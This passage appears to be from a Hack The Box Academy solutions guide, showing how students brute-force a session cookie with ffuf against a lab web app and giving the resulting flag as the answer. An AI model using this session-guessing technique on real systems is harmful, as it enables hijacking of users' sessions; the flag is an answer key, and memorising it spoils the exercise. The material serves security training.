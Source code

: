 Then, students need to run `Ffuf`, using the `-b` flag to specify the cookie and `automatic calibration` with the `-ac` flag; students will find that the session ID `b2sx` is a valid session ID:

Code: shell

```shell
ffuf -u http://STMIP:STMPO/profile.php -b "sessionID=FUZZ" -w sessions.txt -ac
```

```
┌─[us-academy-2]─[10.10.14.242]─[htb-ac413848@htb-ajgzo6jft4]─[~]
└──╼ [★]$ ffuf -u http://188.166.171.51:30355/profile.php -b "sessionID=FUZZ" -w sessions.txt -ac

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.4.1-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://188.166.171.51:30355/profile.php
 :: Wordlist         : FUZZ: sessions.txt
 :: Header           : Cookie: sessionID=FUZZ
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response words: 1
________________________________________________

b2sx                    [Status: 200, Size: 2262, Words: 497, Lines: 67, Duration: 94ms]
```

Therefore, students need to use the session ID `b2sx` found by `Ffuf`, to attain the flag `HTB{cc5e1efbb4e786b59684b83a370e191e}`:

![[HTB Solutions/CWEE/z. images/4e37188ef800d586414164a6f89d5b34_MD5.jpg]]

Answer: `HTB{cc5e1efbb4e786b59684b83a370e191e}`

# Common Session Variables (Auth Bypass)

## Question 1

### "Try to use what you learned in this section to exploit a session puzzling vulnerability due to common session variables and bypass authentication to log in as the admin user and obtain the flag."
